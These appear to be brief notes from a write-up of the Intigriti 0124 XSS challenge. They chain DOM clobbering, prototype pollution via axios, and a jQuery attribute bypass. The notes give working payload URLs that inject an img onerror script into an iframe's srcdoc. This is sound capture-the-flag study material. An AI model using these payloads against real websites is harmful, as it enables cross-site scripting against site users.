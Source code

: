 + dom clobbering in search parameter.insert another `<form id=”search”> `above the form that’s in the challenge page. However, this would only allow me to hijack the searches, and that wouldn’t get me an XSS.

+ prototype pollution in axios library
payload: https://challenge-0124.intigriti.io/challenge?search=con&name=%3Cform+id%3Dsearch%3E%3Cinput+name%3D%22__proto__%5Bintigriti%5D%22+value%3D%22rodriguezjorgex%22%3E

+bypassing jquery checks
```
 if (repo.homepage && repo.homepage.startsWith("https://")) {
                $("#homepage").attr({
                    "src": repo.homepage,
                    "hidden": false
```
payload: `https://challenge-0124.intigriti.io/challenge?search=con&name=<form id=search><input name="__proto__[srcdoc][]" value="<img/src/onerror=alert(document.domain)>"><input name="__proto__[homepage]" value="https://google.com"><input name="__proto__[owner]" value="test">`
We get this error:
jquery-3.7.1.min.js:2 Uncaught (in promise) TypeError: Cannot use 'in' operator to search for 'set' in https://google.com
+ f I set the i variable to an array, it will bypass the error, and the e.setAttribute() function will be called, setting an attribute in the <iframe> tag. So if I can add an srcdoc attribute
+ by using __proto__[srcdoc][], I can make srcdoc into an array, and bypass the error, then execute the e.setAttribute function. Here’s the final payload:
`https://challenge-0124.intigriti.io/challenge?search=con&name=<form id=search><input name="__proto__[srcdoc][]" value="<img/src/onerror=alert(document.domain)>"><input name="__proto__[homepage]" value="https://google.com"><input name="__proto__[owner]" value="test">`
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/350819e0-e47c-4275-b07e-22c930831492)
refer: https://medium.com/@rodriguezjorgex/how-i-passed-the-intigriti-0124-challenge-b6c2d1cd1b7b

